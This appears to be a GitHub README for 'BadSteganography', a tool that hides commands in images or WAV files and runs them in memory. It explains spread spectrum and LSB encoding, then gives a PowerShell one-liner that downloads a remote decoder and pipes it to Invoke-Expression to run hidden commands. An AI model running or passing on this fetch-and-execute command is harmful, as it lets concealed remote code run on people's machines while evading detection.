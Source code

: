 # BadSteganography
Bad Steganography is a repo for encoding commands into images or wav files to execute such in memory. 

# Spread Spectrum Encoding
The steganography method used in the provided script is a form of audio steganography known as spread spectrum encoding. In spread spectrum encoding, the hidden message is embedded in a way that spreads its energy across the frequency spectrum of the carrier signal. This makes the hidden message less susceptible to detection and removal by typical audio processing techniques.

In this specific implementation, the amplitude of the audio samples is modified to represent the binary values of the message. By altering the amplitude, the hidden message is encoded into the audio signal, which can later be extracted using the same method.

# LSB Encoding
The steganography method used in the provided code is called “LSB (Least Significant Bit) steganography.” In this method, the least significant bit of each color channel (RGB) of the pixels in a specified region of an image is replaced with a bit of the secret data. This is done in such a way that the change is not visually noticeable in the image, but the secret data can be retrieved by reading the least significant bits of the color channels in the same region.

# Example
This default payload grabs the contents of the decoder, which then downloads the audio to memory, decodes the message, and executes the command with Invoke-Expression
```
iex(iwr https://raw.githubusercontent.com/CharlesTheGreat77/BadSteganography/main/spread_spectrum_decode.txt).Content | iex
```

